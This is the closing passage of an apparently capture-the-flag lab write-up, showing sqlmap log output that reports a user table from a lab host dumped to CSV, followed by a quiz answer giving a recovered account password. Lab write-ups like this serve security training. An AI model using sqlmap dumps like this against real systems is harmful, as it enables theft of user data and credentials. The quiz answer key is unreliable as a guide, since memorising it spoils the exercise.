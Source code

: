 ```shell

[18:49:03] [INFO] table 'ai.`user`' dumped to CSV file '/root/.sqlmap/output/10.10.32.196/dump/ai/user.csv'
[18:49:03] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.32.196'
[18:49:03] [WARNING] you haven't updated sqlmap for more than 2022 days!!!

[*] ending @ 18:49:03 /2025-10-16/

root@ip-10-10-129-125:~# 
```

**Question 3**
What is the password of the email test@chatai.com?

**Answer:** `12345678`

-----

Thanks for reading:
It's me: ***commostudent***





